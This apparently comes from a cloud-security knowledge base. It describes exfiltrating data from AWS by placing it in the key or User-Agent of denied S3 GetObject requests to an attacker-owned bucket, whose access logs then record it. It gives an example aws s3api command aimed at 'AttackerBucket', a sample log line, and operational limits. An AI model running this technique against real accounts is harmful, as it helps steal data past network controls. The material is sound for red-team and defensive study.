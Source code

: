 ```yaml
---
author_name: Costas Kourmpoglou
title: S3 Server Access Logs 
description: Exfiltrate data via S3:GetObject and s3 server access logs
hide:
  - toc
---
```


Related Reading: [https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms](https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms)

If we have control over an IAM identity that allows `s3:GetObject`, depending on the network access to the S3 service, we can use S3 server access logs to a bucket _we_ control, and use it to exfiltrate data.

We'll create an S3 bucket, `AttackerBucket` in our account with [server access logging](https://docs.aws.amazon.com/AmazonS3/latest/userguide/ServerLogs.html).
Let's name the logging bucket `AttackerBucketLogs`. Every request to the S3 bucket, will be logged in this bucket. This includes internal AWS requests, or requests made via the AWS console.

With our data in hand `ExampleDataToExfiltrate`, we will send a `GetObject` request to our bucket, for example:

`aws s3api get-object --bucket AttackerBucket  --key ExampleDataToExfiltrate`

The request will be denied. However the attempt along with the other details, including our key `ExampleDatatoExfiltrate` - which is the data we're exfiltrating -  will arrive to our logging bucket `AttackerBucketLogs`.

We'll receive the data in the default logging format:

```
[..] attackerbucket […] 31.94.19.179 – […] REST.GET.OBJECT ExampleDataToExfiltrate "GET / ExampleDataToExfiltrate HTTP/1.1" 403 AccessDenied 243 - 18 - "-" "UserAgentAlsoHasData " – […]
```


We're exfiltrating data, using the Key parameter of the request. There's a hard limit of 1024 bytes per Key, but other request fields can be used like User-Agent.

There are two challenges with this method:

1. If the network access to the S3 service takes place over a VPC endpoint, then the policy of the VPC endpoint would need to allow access to our bucket.
The VPC endpoint will drop the request and will not forward it to the S3 service, if the policy doesn't allow it. The S3 service won't be able to generate logs, and we won't be able to exfiltrate data.

2. The logs are not guaranteed to arrive in order. If you're splitting data across multiple requests, you'll need to figure out a mechanism to re-order the data correctly.  

 
For the general usecase where network access to the S3 service takes place over the internet, there is a 10-120 minute delay, in the log delivery.
